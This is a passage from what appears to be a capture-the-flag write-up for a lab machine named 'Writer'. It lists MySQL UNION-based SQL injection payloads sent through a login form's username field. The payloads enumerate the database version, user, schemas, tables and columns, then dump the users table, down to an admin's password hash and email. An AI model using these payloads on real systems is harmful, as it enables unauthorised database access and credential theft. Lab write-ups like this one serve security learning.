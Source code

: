 ![image-20230108122652480](./images/image-20230108122652480.png)

extract data, writer.users; not much interesting info.

search: mysql injection cheatsheet

https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

```bash
# version
uname='+union+select+1,version(),3,4,5,6%3b--+-&password=password

# user
uname='+union+select+1,user(),3,4,5,6%3b--+-&password=password

# schema name: information_schema,writer
uname='+union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata;%3b--+-&password=password

# table: site,stories,users
uname='+union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.tables+where+table_schema='writer';%3b--+-&password=password

# column, users: id,username,password,email,status,date_created
uname='+union+select+1,group_concat(column_name),3,4,5,6+from+information_schema.columns+where+table_schema='writer'+and+table_name='users';%3b--+-&password=password

# table user data: admin:118e48794631a9612484ca8b55f622d0:admin@writer.htb
uname='+union+select+1,concat(username,":",password,":",email),3,4,5,6+from+users;%3b--+-&password=password
```
